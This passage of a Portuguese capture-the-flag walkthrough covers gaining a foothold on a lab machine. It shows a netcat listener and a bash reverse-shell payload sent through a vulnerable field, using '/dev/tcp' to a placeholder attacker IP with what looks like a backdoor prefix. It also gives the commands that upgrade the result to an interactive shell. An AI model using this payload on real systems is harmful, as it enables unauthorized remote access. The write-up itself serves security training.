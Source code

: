 ## Com a capacidade de execução de comandos, podemos obter um reverse shell . Para isso, configuramos o netcat para aguardar conexões na porta 80 :
```bash
sudo nc -lvp 80
```
## Em seguida, enviamos a seguinte payload de reverse shell através do campo vulnerável:
```bash
backd00r2k23@_/bin/bash -c "bash -i >& /dev/tcp/<your-ip>/80 0>&1"
```
![Descrição da imagem](./images/20.png)

## Ao enviar a payload, recebemos uma shell interativa no netcat:
![Descrição da imagem](./images/21.png)

## Para obter uma shell totalmente interativa, execute os seguintes comandos:
```bash
export TERM=xterm
script /dev/null -c bash
```
## Pressione Control + Z para suspender a sessão e, em seguida, execute:
```bash
stty raw -echo && fg
```
## Com a shell, podemos então obter a flag de user: